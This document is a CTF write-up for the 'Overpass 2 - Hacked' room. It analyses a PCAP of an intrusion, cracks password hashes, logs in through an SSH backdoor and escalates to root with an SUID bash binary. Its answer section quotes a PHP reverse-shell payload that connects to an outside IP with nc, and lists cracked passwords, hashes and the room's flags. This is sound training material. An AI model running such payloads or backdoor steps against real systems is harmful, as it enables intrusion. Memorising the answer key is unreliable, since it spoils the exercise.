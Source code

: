 ---
- **Title**: Overpass 2 - Hacked
- **Description**: Overpas has been hacked! Analyze PCAP file to investigate attackers' actions. From there try to hack back in the system.
- **Set up:**
```bash
	### Set $IP variable to the assigned IP Address
	export IP=10.10.147.30
```
![OverPass-Header](./Images/[OverPass-Header].png)

# Task 1 - Forensic - Analysis the PCAP

- By filtering the packets by ```http```, I can easily see the URL of the page attackers used to upload the reverse shell. The packet I was looking for was the one with POST request.

![POST Request](./Images/POST-Request.png)

- Following HTTP Stream, I can figure all information that tracks down attackers' actions.

![POST HTTP Stream](./Images/POST-HTTP-Stream.png)

- Filtering the PCAP file using ```tcp contains password```, I was able to retrieve 5 users with 5 hashes.

![users-hashes](./Images/users-hashes.png)

Using John with fastttrack.txt, I was able to crack 4 passwords for 4 users: 

![cracked-passwords](./Images/cracked-passwords.png)


# Task 2 - Research & Analyze the code

_ In the HTTP Stream, I found that attackers downloaded code from a github page: https://github.com/NinjaJc01/ssh-backdoor. Analyzing the code on the github page, we'll find all the answers. After analyzing the codes, I was able to retrieve teh default hash for the backdorr, the hardcoded  salt for the backdoor and the has that the attacker used (from the PCAP file). From there, I was able to crack the password using the list rockyou.txt. Combining the found hash and salt, I was able to crack the password for the backdoor (SHA512($p.$s))

# Task 3 - Attack & Get Back in!
- Visiting the website on port 80, we can easily see the message by the attacker.

- Using the credentials found in Task 2, to ssh to the machine through the backdoor. 

```bash
    ssh james@$IP -p 2222
``` 

![ssh-backdoor](./Images/ssh-backdoor.png)

- Running some directory exploration, I found user.txt under james' home folder. I also found .suid_bash file, which has suid bit set. This can be used to escalate privilege to root.

```bash
    ls -la /home/james
```
![james-home.png](./Images/james-home.png)

- Referencing [GTFOBin]("https://gtfobins.github.io/"), I was able to get root by running the following command:

```bash
    ./.suid_bash -p
```

![get-root.png](./Images/get-root.png)

And we're done for the room. With root acces, I could get both user's flag and root flag.
<details>
    <summary> Answer </summary>
1. What was the URL of the page they used to upload a reverse shell? -> /development/
2. What payload did the attacker use to gain access? -> <?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
3. What password did the attacker use to privesc? -> whenevernoteartinstant
4. How did the attacker establish persistence? -> https://github.com/NinjaJc01/ssh-backdoor
5. Using the fasttrack wordlist, how many of the system passwords were crackable? -> 4
6. What's the default hash for the backdoor? -> bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3
7. What's the hardcoded salt for the backdoor? -> 1c362db832f3f864c8c2fe05f2002a05
8. What was the hash that the attacker used? - go back to the PCAP for this! -> 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
9. Crack the hash using rockyou and a cracking tool of your choice. What's the password? -> november16
10.  The attacker defaced the website. What message did they leave as a heading? -> H4ck3d by CooctusClan
11. What's the user flag? -> thm{d119b4fa8c497ddb0525f7ad200e6567}
12. What's the root flag? -> thm{d53b2684f169360bb9606c333873144d}

</details>

